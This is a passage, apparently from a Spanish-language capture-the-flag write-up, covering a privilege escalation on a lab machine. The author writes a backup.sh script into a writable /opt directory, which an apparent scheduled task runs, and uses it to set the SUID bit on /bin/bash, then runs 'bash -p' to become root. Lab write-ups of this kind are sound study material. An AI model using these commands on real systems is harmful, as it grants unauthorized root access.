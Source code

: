 ![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/1bb796fc-708f-4f07-a4d5-85cf4a1132a2)

Encontramos que se esta ejecutando el script backup.sh

```python
www-data@debian:/opt$ ls
backup.py
```
En dicho directorio encontramos un backup.py pero tenemos permisos de escritura así que vamos a crear un backup.sh.

```python
>echo 'chmod u+s /bin/bash' >> backup.sh
>chomod +x backup.sh
```
introducimos este comando para elevar nuestra bash.

Esperamos un par de minutos y ejecutamos el comando: `bash -p` para elevar y somos root!.
![image](https://github.com/haw441kings/ThehHackersLabs-WriteUps/assets/136659799/22f6c19d-0d3d-4939-8a26-4fcb4bb88fb7)

